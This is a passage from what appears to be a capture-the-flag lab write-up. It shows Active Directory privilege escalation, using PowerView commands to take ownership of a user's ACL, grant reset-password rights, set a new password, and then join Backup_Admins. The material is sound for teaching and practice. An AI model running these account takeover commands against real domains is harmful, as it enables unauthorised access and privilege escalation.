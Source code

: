 ### Changing Claire's Password
As we have control over Claire, we can use `PowerView.ps1` which is already on the box, to:
 - Become owner of claire’s ACL's
 - Get the permissions on that ACL
 - Use those aquired permissions to change the password of claire
 - SSH as Claire

These are the commands we will use to change Claire's Password:
{% highlight powershell %}
. .\PowerView.ps1
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "password123!" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
{% endhighlight %}

![commands](/images/reel/commands.png)

### SSH as Claire
Now that we have changed claires credentials to, `claire:password123!` we can login as claire over ssh.

![claire-ssh](/images/reel/claire-ssh.png)

## Claire to Domain Admin
Now that we have access to claire's account we can add ourselves to the `Backup_Admins` group.

![add-command](/images/reel/claire-ba-add.png)

And as you can see we have access to the Administrators folder.
